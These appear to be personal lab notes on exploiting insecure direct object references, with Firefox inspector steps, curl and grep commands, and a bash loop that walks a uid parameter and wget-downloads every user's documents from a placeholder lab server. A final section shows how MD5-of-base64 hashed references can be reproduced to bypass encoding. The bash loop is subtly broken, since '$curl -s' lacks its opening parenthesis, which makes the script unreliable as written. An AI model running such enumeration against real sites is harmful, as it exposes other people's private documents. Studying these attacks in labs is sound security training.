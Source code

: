 ### Mass IDOR Enumeration

#### Click on [CTRL+SHIFT+C] in Firefox to enable the element inspector, then click on any of the links to view their HTML source code
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

#### Pick any unique word to be able to grep the link of the file (e.g., `<li class='pure-tree_link'>`)
```Shell
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"
```

#### Use `grep` to only get the document links
```Shell
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

#### Use a `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
	for link in $curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
		wget -q $url/$link
	done
done
```

***LAB Notes:*
Be sure to intercept the request and see what type of HTTP parameter is being used (e.g., POST vs GET)

### Bypassing Encoded References

#### Intercepting the request in Burp
![[Pasted image 20230213155126.png]]
It is sending `POST` request to `download.php`

#### Can utilize Burp Comparer and fuzz various values and then compare each to our hash to see if we find any matches

#### Function Disclosure
```JavaScript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```
This function takes the UID and encodes it as base64 (`btoa`), then hashes it w/ MD5
